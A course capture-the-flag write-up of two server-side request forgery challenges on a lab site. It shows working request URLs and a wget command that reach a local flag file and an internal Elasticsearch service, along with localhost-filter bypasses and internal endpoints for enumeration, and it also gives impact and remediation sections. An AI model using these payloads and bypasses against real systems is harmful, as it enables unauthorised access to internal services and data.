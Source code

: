 ```yaml
---
layout: post
title: COMP6843 - Extended Break 4
date: 2018-05-20
categories: ['writeup']
---
```

# Server Side Request Forgery: Local Files
> Target: https://ssrfsquared.ns.agency/  

___
### Proof of Concept

1. Intercept the requests made between the front and back end of the site during the initial load  
  
2. Notice that there is a request for   
   ```ruby
   https://ssrfsquared.ns.agency/static?r=http%3A%2F%2F127.0.0.1%3A9447%2Fstyles.css
   ```
   which can also be confirmed by viewing the source of the page.
3. This becomes an entry point for an attacker to probe the internal network  

4. Some files return the same content when accessed externally or internally such as `index.html` or `styles.css`  

5. When viewing   
   `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/styles.css`   
   there is a hint that something else is on the server  

6. Logically we try other URIs and get the flag:
   `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/flag`  

   ```powershell
   wget -qO- https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/flag
   ```  
  
```applescript
 sectalks{i_wonder_what_else_is_running_locally}
 ```
   
> **<u>Extra Info</u>**:   
`localhost` gives the message _`"big sorry, we broke localhost, try 127.0.0.1"`_ but this can be circumvented by using the following: **`127.0.0.1`**, **`0`**, **`Localhost`** / **`lOcAlHoSt`** etc 

___
### Impact 
**P2 - High**

Attackers can access localhost and read files stored in the working directory of the application, which may contain data that is not meant for public viewing. In this case only static files are retrieved, but in a real world scenario an attacker may be able to find other files (eg. _.php_ files) which may lead to code execution. If combined with a directory traversal vulnerability, the attacker can also read any files in the entire filesystem with the right permissions.

___
### Remediation 

Avoid querying files directly through URL requests using localhost, or perform server-side validation on the URLs requested if it cannot be avoided. Any important files in the working directory should have their permissions set so that they are not viewable by the web application if not necessary _(Principal of Least Privilege)_.  
  
<div class="divider"></div>
# Server Side Request Forgery: Local Services
> Target: https://ssrfsquared.ns.agency/

### Proof of Concept

The search functionality of the site is powered by _Elastic Search_, which serves up different Phrack articles.
There is also a flag stored in the service somewhere, as searching for `FLAG` or `flag` would reveal
```
The flag is sectalks{REDACTED}
```
hinting that it should be accessed locally. 

1. By doing port enumeration via GET requests or simply by guessing common port numbers, we can find the service at  
   `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9200/`  
   <br/>
2. Utilizing the `_search` function we can search for the flag:  
   `https://ssrfsquared.ns.agency/static?r=http://0:9200/_search?q=sectalks`  
```ruby
   {
  "took": 1,
  "timed_out": false,
  "_shards": {
    "total": 5,
    "successful": 5,
    "failed": 0
  },
  "hits": {
    "total": 1,
    "max_score": 8.236906,
    "hits": [
      {
        "_index": "phrack",
        "_type": "article",
        "_id": "976",
        "_score": 8.236906,
        "_source": {
          "content": "The flag is sectalks{ssrf_for_fun_and_profit}",
          "title": "Flag",
          "author": "sy + grc",
          "issue": 0,
          "number": 0
        }
      }
    ]
  }
}
```  

3. The flag can also be found by enumerating all phrack articles   
    (Although not recommended)     
    `https://ssrfsquared.ns.agency/static?r=http://0:9200/phrack/article/976`  
 
<br/> 
> **Extra Info**:  
- A lot of additional information can be found by executing   
  any of the following commands 
    
```
http://0:9200/_cluster/settings
http://0:9200/_cluster/state
http://0:9200/phrack/article/14
http://0:9200/_tasks/
http://0:9200/_nodes?pretty=true
http://0:9200/_mapping
http://0:9200/_cat&?pretty=true
```

___


### Impact 
**P2 - High**

Attackers can enumerate port numbers and access services that are not public-facing, which might lead to the disclosure of data or unauthorized access to the internal network. This can allow for lateral movement or even worse privilege escalation, depending on the access controls within the internal network.

___
### Remediation

Similar to above, avoid sending requests to the internal network and to perform validation for requests if necessary. It is possible to implement a _Web Application Firewall_ (WAF) but determined attackers may be able to bypass the WAF with specially crafted URLs (eg. by double encoding or using multibyte characters)

Elastic Search by itself does not support authentication so another method of solving this problem is to never assume the internal network is safe, and to install proper access controls on any/all internal services. 

